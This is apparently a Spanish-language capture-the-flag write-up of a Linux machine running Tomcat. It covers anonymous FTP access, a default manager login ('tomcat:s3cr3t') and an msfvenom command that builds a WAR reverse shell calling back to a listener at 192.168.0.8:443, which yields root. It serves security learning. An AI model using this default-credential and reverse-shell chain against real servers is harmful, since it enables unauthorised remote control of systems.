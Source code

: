 - Tags: #linux #tomcat #InformationLeakage #msfvenom  #FTP 
_______
empezamos la maquina con los escaneos de rutina con nmap los cuales nos reportan que los puertos 22 (FTP) el puerto 8080 por el cual corre un servicio web llamado tomcat.

desde ya nmap nos reporta que el FTP es vulnerable y que podemos acceder sin contraseña utilizando el usuario anonymous, ya dentro nos encontramos el siguiente archivo.
_____
![](attachment/7aa5fe8623ece1546c25f55a91354c26.png)
_____
el cual nos dice que si podemos configurar el servidor tomcat ya ha olvidado la contraseña.

si accedemos a la web encontramos lo siguiente.
____
![](attachment/cab0dcbade3a3af115955c85472db06c.png)
____
hay un boton que nos dice server status y al presionarlo nos pedirá unas credenciales, las cuales no tenemos, pero es aquí donde viene lo interesante puesto que si le damos en cancelar nos aparecerá una pagina con un codigo de estado 403 y con la siguiente información.
____
![](attachment/e0c286dac970e7b733f6e4d34711e048.png)
_____
ahí podemos ver alguna credenciales las cuales probaremos 

credenciales: `tomcat` : `s3cret`

pero no funcionan por lo que buscaremos en la web para ver que encontramos.
______
![](attachment/c6a0003991c8b3b3599f827f93a3b68c.png)
_____
en la pagina de hacktricks encontramos el siguiente articulo que nos muestra mas credenciales por defecto y la que nos funcionara es la siguiente.

**tomcat : s3cr3t**

con esas credenciales ganamos acceso al panel de admin y veremos los siguiente.
_____
![](attachment/f2db6b6c7bac0298358e40b5a8ecb056.png)
____
en este apartado podemos subir un archivo el cual crearemos con mfsvenom, el archivo es un reverse shell.

para crearlo aplicaremos el siguiente comando:

```shell
msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.0.8 LPORT=443 -f war -o revshell.war
```

una vez creado lo subimos nos vamos al siguiente apartado.
______
![](attachment/53ca89d1bec1c455e8f6e9316629365b.png)
____
lo abrimos, y después le damos al boton reload pero antes de todo ya tendremos que tener el netcat a la escucha. 

si hacemos esos pasos ya tendremos acceso a la maquina y ya de por si estaremos como root.

